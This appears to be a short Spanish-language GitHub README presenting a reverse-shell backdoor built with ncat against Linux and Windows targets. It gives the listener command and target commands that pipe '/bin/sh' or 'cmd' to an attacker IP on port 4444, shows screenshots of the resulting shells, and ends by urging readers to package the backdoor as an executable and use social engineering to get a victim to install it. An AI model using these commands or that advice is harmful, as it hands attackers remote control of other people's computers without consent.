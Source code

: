 # REVERSE_SHELL-CON-NCAT

# Infectar un sistema linux y windows.
# Con tan solo 2 lineas de comando !


* LISTENER (HACKER) > PARROT 

```bash
ncat -l -v 4444
```

* TARGET > UBUNTU 

```bash
ncat -v 192.168.1.200 4444 -e "/bin/sh"
```

# Result > ![backdoor](https://user-images.githubusercontent.com/97669969/154819413-fd945688-3170-46e5-995e-46fd7f491333.jpg)


# Windows 

* LISTENER (HACKER) > PARROT

```bash
ncat -l -v 4444
```

* TARGET > WINDOWS 

```bash
ncat -v 192.168.1.200 4444 -e cmd
```
# RESULT >
![windows shell](https://user-images.githubusercontent.com/97669969/154819759-1af4849a-9bc7-4e86-a5e2-42a834a89e58.jpg)





# " La Navaja Suiza " EN ACCION !




* La IP debe ser la tuya. 
* El puerto esta por defecto en 4444. 


# Por supuesto aqui estamos haciendo pruebas de nuestro backdoor. 
* Tenemos que usar un lenguaje y escribir nuestro codigo y crear un archivo executable tanto en linux como en windows.
* Y usar ingenieria social para hacer que esa persona instale nuestro virus, backdoor..etc.


